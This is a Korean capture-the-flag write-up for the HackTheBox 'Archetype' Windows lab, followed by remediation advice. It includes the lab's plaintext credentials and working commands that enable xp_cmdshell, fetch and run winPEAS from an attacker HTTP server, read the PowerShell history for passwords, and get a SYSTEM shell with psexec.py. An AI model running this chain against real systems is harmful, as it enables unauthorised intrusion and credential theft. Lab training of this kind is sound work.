# Archetype

## 개요

Windows 서버에서 SMB 익명 접근으로 MSSQL 자격증명이 담긴 설정 파일을 발견하고, 해당 자격증명으로 MSSQL에 접속해 `xp_cmdshell`을 통한 RCE를 달성한다. 이후 winPEAS로 시스템을 분석해 PowerShell 히스토리에서 Administrator 패스워드를 발굴하고, Impacket의 `psexec.py`로 최고 권한을 획득하는 머신이다. 설정 파일의 자격증명 노출, MSSQL의 위험한 기능 활성화, 히스토리 파일의 민감 정보 잔존이라는 세 가지 취약점이 연쇄적으로 이어지는 전형적인 Windows 침투 흐름을 실습할 수 있다.

## 대상 정보

| 항목 | 내용 |
|------|------|
| 플랫폼 | HackTheBox Starting Point Tier 2 |
| 운영체제 | Windows Server 2019 |
| 개방 포트 | 135 (MSRPC), 139 (NetBIOS), 445 (SMB), 1433 (MSSQL) |
| 주요 기술 스택 | SMB, Microsoft SQL Server 2017, Impacket, winPEAS |
| 취약점 | 설정 파일 자격증명 노출, xp_cmdshell RCE, PowerShell 히스토리 패스워드 노출 |

---

## Enumeration

### 1. 포트 스캔

nmap으로 대상 서버의 열린 포트와 서비스 버전을 확인한다.

```bash
nmap -sC -sV $IP
```



135, 139, 445번 포트에서 SMB 관련 서비스가, 1433번 포트에서 Microsoft SQL Server 2017이 동작하고 있음을 확인했다. SMB와 MSSQL이 동시에 열려있다는 점이 중요한데, SMB에서 자격증명을 얻어 MSSQL에 접속하는 연쇄 공격 경로를 고려할 수 있다. 우선 인증 없이 접근 가능한 SMB 공유가 있는지 확인하는 것이 첫 번째 단계다.

---

### 2. SMB 공유 열거

`smbclient`로 익명 접근을 시도해 공유 목록을 확인한다. Tactics 머신과 달리 이번에는 `-N` 옵션으로 패스워드 없이 공유 목록 열거에 성공했다.

```bash
smbclient -L $IP -N
```



`ADMIN$`, `C$`, `IPC$`는 `$`로 끝나는 관리자 공유이고, `backups`는 `$` 없이 노출된 비관리자 공유다. 비관리자 공유는 일반적으로 특정 목적을 위해 수동으로 생성된 것이므로 내부에 유의미한 파일이 있을 가능성이 높다.

---

### 3. backups 공유 접속 및 파일 발견

`backups` 공유에 익명으로 접속해 내부 파일을 확인한다.

```bash
smbclient \\\\$IP\\backups -N
```



접속에 성공했다. `ls` 명령어로 파일 목록을 확인한다.

```bash
ls
```



`prod.dtsConfig` 파일이 발견됐다. `.dtsConfig`는 Microsoft SQL Server Integration Services(SSIS)의 설정 파일 형식으로, 데이터베이스 연결 정보를 저장하는 경우가 많다. 자격증명이 포함되어 있을 가능성이 높으므로 로컬로 다운로드해 분석한다.

```bash
get prod.dtsConfig
```



---

### 4. 설정 파일에서 자격증명 확보

smbclient에서 나온 후 다운로드한 파일의 내용을 확인한다.

```bash
cat prod.dtsConfig
```



`ConfiguredValue` 항목에 MSSQL 연결 문자열이 평문으로 노출되어 있다.

- **User ID**: `ARCHETYPE\sql_svc`
- **Password**: `M3g4c0rp123`

설정 파일에 자격증명을 평문으로 저장하는 것은 심각한 보안 취약점이다. 이 자격증명으로 1433번 포트의 MSSQL 서버 접속을 시도한다.

---

### 5. MSSQL 접속

Impacket의 `mssqlclient.py`로 확보한 자격증명을 사용해 MSSQL 서버에 접속한다. `-windows-auth` 옵션은 SQL Server 자체 인증이 아닌 Windows 도메인 인증 방식을 사용하는 것으로, 도메인 계정(`ARCHETYPE\sql_svc`)으로 로그인할 때 필요하다.

```bash
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@$IP -windows-auth
```



`SQL (ARCHETYPE\sql_svc dbo@master)>` 프롬프트가 확인되어 접속에 성공했다.

---

### 6. xp_cmdshell 활성화 및 RCE 확인

MSSQL의 `xp_cmdshell`은 SQL 쿼리 내에서 Windows 시스템 명령어를 직접 실행할 수 있게 해주는 확장 저장 프로시저다. 기본적으로 비활성화되어 있으나, `sysadmin` 권한이 있으면 활성화할 수 있다. `sql_svc` 계정이 해당 권한을 가지고 있는지 확인하기 위해 활성화를 시도한다.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



활성화에 성공했다. `whoami`로 현재 실행 권한을 확인한다.

```sql
EXEC xp_cmdshell 'whoami';
```



`archetype\sql_svc` 권한으로 명령어 실행이 가능함을 확인했다. RCE가 확보됐으므로 권한 상승 경로를 탐색하기 위해 winPEAS를 대상 서버에 업로드한다.

---

### 7. winPEAS 업로드 및 실행

winPEAS는 Windows 환경에서 권한 상승 가능한 경로를 자동으로 탐색해주는 도구다. 공격자 머신에서 HTTP 서버를 실행해 winPEAS를 호스팅하고, xp_cmdshell을 통해 대상 서버가 파일을 내려받도록 한다.

공격자 머신에서 winPEAS 다운로드 후 HTTP 서버 실행:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe
python3 -m http.server 8080
```



MSSQL 셸에서 PowerShell로 파일 전송:

```sql
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest http://10.10.14.167:8080/winPEASx64.exe -OutFile C:\Users\sql_svc\Downloads\winPEAS.exe"';
```





HTTP 서버 로그에서 대상 서버(`10.129.16.225`)가 파일을 요청한 것을 확인했다. winPEAS를 실행한다.

```sql
EXEC xp_cmdshell 'C:\Users\sql_svc\Downloads\winPEAS.exe';
```



---

### 8. PowerShell 히스토리에서 Administrator 패스워드 발견

winPEAS 출력 결과를 분석하는 과정에서 PowerShell 히스토리 파일이 존재함을 확인했다. Windows는 PowerShell에서 실행한 명령어를 히스토리 파일에 저장하는데, 관리자가 패스워드를 포함한 명령어를 실행했다면 해당 내용이 그대로 남아있을 수 있다. 히스토리 파일을 직접 읽어본다.

```sql
EXEC xp_cmdshell 'type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
```



히스토리 파일에 Administrator가 SMB 드라이브를 마운트할 때 사용한 명령어가 그대로 남아있었다.

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

- **계정**: `administrator`
- **패스워드**: `MEGACORP_4dm1n!!`

---

### 9. Administrator 셸 획득

확보한 Administrator 자격증명으로 `psexec.py`를 통해 최고 권한의 셸을 획득한다. `!!`가 bash에서 특수문자로 해석되는 것을 방지하기 위해 패스워드를 작은따옴표로 감싸고, `$IP` 변수가 따옴표 내에서 해석되지 않으므로 IP를 직접 입력한다.

```bash
psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.16.225
```



`ADMIN$` 공유에 실행 파일을 업로드하고 Windows 서비스 관리자를 통해 서비스를 생성하는 방식으로 SYSTEM 권한의 셸이 제공됐다.

---

### 10. Flag 획득

획득한 셸에서 user flag와 root flag를 순서대로 읽는다.

```bash
type C:\Users\sql_svc\Desktop\user.txt
```



```bash
type C:\Users\Administrator\Desktop\root.txt
```



두 flag를 모두 성공적으로 획득했다.

---

## 취약점 원인 분석

이 머신은 세 가지 취약점이 연쇄적으로 연결된 구조다.

**1단계 - 설정 파일 자격증명 노출**
`backups` SMB 공유에 익명 접근이 허용되어 있었고, 내부에 MSSQL 자격증명이 평문으로 저장된 설정 파일이 존재했다. 설정 파일은 암호화되거나 접근이 제한된 위치에 보관해야 한다.

**2단계 - xp_cmdshell 활성화**
`sql_svc` 계정이 `sysadmin` 권한을 가지고 있어 `xp_cmdshell`을 활성화할 수 있었다. `xp_cmdshell`은 운영상 필요한 경우에만 활성화하고, 사용 후 즉시 비활성화해야 한다. 또한 서비스 계정에는 최소 권한 원칙을 적용해 `sysadmin`이 아닌 필요한 권한만 부여해야 한다.

**3단계 - PowerShell 히스토리 패스워드 잔존**
관리자가 패스워드를 포함한 명령어를 PowerShell에서 직접 실행했고, 그 내용이 히스토리 파일에 평문으로 남아있었다. 패스워드를 커맨드라인 인자로 직접 전달하는 것은 지양해야 하며, 히스토리 파일을 주기적으로 정리하거나 민감 명령어는 히스토리에 기록되지 않도록 설정해야 한다.

---

## 실제 환경에서의 위험성

이 머신의 공격 흐름은 실제 기업 환경에서도 빈번하게 발생하는 시나리오다. MSSQL 서버는 내부망에서 광범위하게 사용되며, 설정 파일이나 소스코드 저장소에 자격증명이 노출되는 사례가 매우 많다. 특히 `xp_cmdshell`이 활성화된 MSSQL 서버에 접근할 수 있으면 데이터베이스 탈취를 넘어 서버 전체에 대한 제어권을 획득할 수 있어 피해 범위가 크다.

---

## 핵심 정리

| 항목 | 내용 |
|------|------|
| 초기 접근 경로 | SMB 익명 접근 → 설정 파일 자격증명 획득 |
| RCE 방법 | MSSQL xp_cmdshell 활성화 |
| 권한 상승 방법 | winPEAS → PowerShell 히스토리 패스워드 발견 |
| 최종 접근 | Impacket psexec.py → SYSTEM 권한 |
| 핵심 교훈 | 설정 파일 암호화, 최소 권한 원칙 적용, 히스토리 파일 관리 |
